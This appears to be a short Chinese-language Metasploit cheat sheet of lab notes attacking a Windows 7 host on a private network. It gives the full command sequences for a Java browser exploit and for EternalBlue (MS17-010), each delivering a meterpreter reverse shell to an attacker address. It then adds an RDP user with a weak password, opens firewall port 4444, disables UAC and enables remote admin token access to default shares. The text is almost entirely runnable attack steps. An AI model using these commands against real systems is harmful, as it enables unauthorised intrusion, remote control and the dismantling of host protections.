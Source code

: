 ## 使用java7模块getshell

```
use exploit/multi/browser/java_jre17_driver_manager
set payload java/meterpreter/reverse_tcp 
set lhost 192.168.100.143
set LPORT 4444
run
```

## 使用ms17-010漏洞对win7进行

```
Win7防火墙状态关闭   进行扫描确认是否存在漏洞
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.100.129
run

存在MS17-010漏洞下面开始漏洞利用
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.100.129
set payload windows/meterpreter/reverse_tcp 
options
run

查看权限 meterpreter > getuid
```

## 创建一个新用户来远程连接win7桌面

```
meterpreter > run post/windows/manage/enable_rdp
meterpreter > run post/windows/manage/enable_rdp USERNAME=xiaoxiao PASSWORD=123456

sudo rdesktop 192.168.100.129       

```

## 关闭主机防护策略

```shell
shell
	netsh firewall add portopening TCP 4444 "xiaoxiao" ENABLE ALL   
		创建一条防火墙规则允许4444端口访问网络
	cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
		ADD添加一个注册表项 -v创建键值 -t 键值类型 -d 键值的值  关闭UAC(通知用户是否对应用程序使用硬盘驱动器和系统文件授权)
	cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
		开启win7系统主机的默认共享
```
